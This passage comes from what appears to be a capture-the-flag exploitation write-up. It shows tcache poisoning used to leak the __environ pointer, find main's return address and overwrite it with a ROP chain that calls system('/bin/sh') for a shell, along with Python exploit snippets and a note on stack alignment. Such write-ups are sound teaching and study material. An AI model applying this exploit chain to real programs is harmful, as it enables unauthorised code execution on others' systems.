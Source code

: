 ```python
environ = libc_base + libc.symbols.__environ
```

### The ROP chain 

We can use **tcache poisoning** to overwrite the `fd` pointer of the first freed chunk with the address of `__environ`. After allocating twice, the second allocation will return a chunk overlapping the `__environ` pointer.

Keep in mind: `malloc()` zeroes out the first `0x10` bytes, so we must allocate at an **offset**. In this case, we offset by `0x18` because chunks must also be aligned to `0x10`:

```python
environ_leak = u64(read(r, 10)[0x18:0x20])
```

From here we get the environment stack variables and subtract the `main` return address from it, we get a permanent offset that when added on our environ leak will yield us the main address. 

Using our **tcache poisoning technique** again, we can modify the return address and set a ROP gadget chain, I opted for:

```python 
pop_rdi = libc_base + 0x000000000010f75b
binsh = libc.binsh() + libc_base
ret = pop_rdi + 1
system = libc_base + libc.symbols.system

return_pointer = environ_leak - 0x130 # 0x130 is the offset from environ to main return
update(r, 9, p64((return_pointer-0x08) ^ mask)) # 0x08 for heap alignment
create(r, 11, b"dummy")
create(r, 12, p64(0) + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system))

```

We need to add a single ret instruction because the stack is not aligned to a multiple of `0x10`. Using the `pop rdi` instruction and summing $1$ gives us a single `ret` instruction because `pop rdi` is a single byte.

:::note
Sometimes a perfect ROP chain still crashes the target. One common cause is stack misalignment. Many `libc` functions require the stack to be `0x10` aligned to accommodate [SIMD instructions](https://stackoverflow.com/questions/1422149/what-is-vectorization#1422181) . Adding a single `ret` gadget before your chain moves the stack by `0x08`, fixing the alignment.
:::

Now when returning `system(/bin/sh)` will be executed giving us a **shell**.
